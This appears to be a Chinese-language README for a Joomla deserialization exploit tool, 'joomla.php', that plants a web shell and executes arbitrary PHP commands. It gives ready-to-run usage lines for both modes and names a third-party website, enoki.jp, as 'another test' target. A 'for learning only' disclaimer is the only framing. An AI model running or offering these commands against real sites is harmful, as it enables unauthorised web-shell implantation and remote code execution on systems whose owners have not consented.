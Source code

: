 
#joomla 反序列化漏洞 getshell&amp;&amp;命令执行
--------------- Joomla 反序列化漏洞利用工具---------------

    1.记得命令后头加分号，命令用单引号括起来。       
    2.仅供学习php代码使用         

Usage:

`
php joomla.php http://xatusec.org getshell
`

`
php joomla.php http://xatusec.org command 'phpinfo();'
`

-------------------Powered by Whirlwind-------------------

再送一个测试 php joomla.php http://enoki.jp/ getshell 

http://zone.wooyun.org/content/24461

